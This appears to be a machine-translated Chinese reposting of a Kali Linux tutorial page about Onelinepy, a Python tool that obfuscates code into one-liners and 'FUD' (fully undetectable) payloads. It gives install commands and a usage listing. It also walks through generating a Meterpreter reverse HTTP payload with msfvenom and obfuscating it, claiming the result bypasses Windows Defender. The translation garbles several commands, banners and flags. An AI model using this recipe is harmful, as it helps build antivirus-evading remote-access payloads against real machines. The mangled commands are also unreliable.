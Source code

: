 # Onelinepy : Python Obfuscator，用于生成一行程序和 FUD 负载

> 原文：<https://kalilinuxtutorials.com/onelinepy/>

[![Onelinepy : Python Obfuscator To Generate One-Liners And FUD Payloads](img//43135505402e2771bcdb908559ecef83.png "Onelinepy : Python Obfuscator To Generate One-Liners And FUD Payloads")](https://1.bp.blogspot.com/-6QVrtjWP0SE/YMRyoR_urnI/AAAAAAAAJdU/JXcLWCApd2QQoCimt25IAOJLIJSpeMrjgCLcBGAsYHQ/s1403/oneline%2B%25281%2529.png)

Onelinepy 是一个 Python 混淆器，用于生成一行程序和 FUD 负载。

**下载&运行**

**git 克隆 https://github.com/spicesouls/onelinepy
CD oneline py
chmod+x setup . sh
。/setup.sh
onelinepy**

**使用指南**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ | |*|
用法:oneline . py[-h][-M M][-I I][–SCRIPT SCRIPT][–CODE CODE][–list][–OUTPUT]
可选参数:
-h，–help 显示此帮助消息并退出
–将 Python 文件的脚本文件路径写到 Obfustucate。
–CODE CODE Python CODE to Obfustucate。
–列出各种方法。
–输出输出输出文件。**

##### **示例:创建 FUD Meterpreter Python 有效负载**

*   生成 Python 有效负载:

`**msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt**`

*   倒刺有效载荷

`**onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfustucated_payload.txt**`

*   利润！Obfustucated 有效负载对 Windows Defender 起作用。

**更多例子**

**oneline py-m/one _ line/base64–脚本有效载荷. py -i 3**

**oneline py-m/one _ line/HEX–code " print(' HEX！')"**

**Obfustucation 方法列表**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ |*|
Obfustucator(* =可能导致语法错误)
-= = = = = = = = = = = = =-
0/one _ line/hex
1/one _ line/base 64
2/one _ line/base 32**

[**Download**](https://github.com/spicesouls/onelinepy)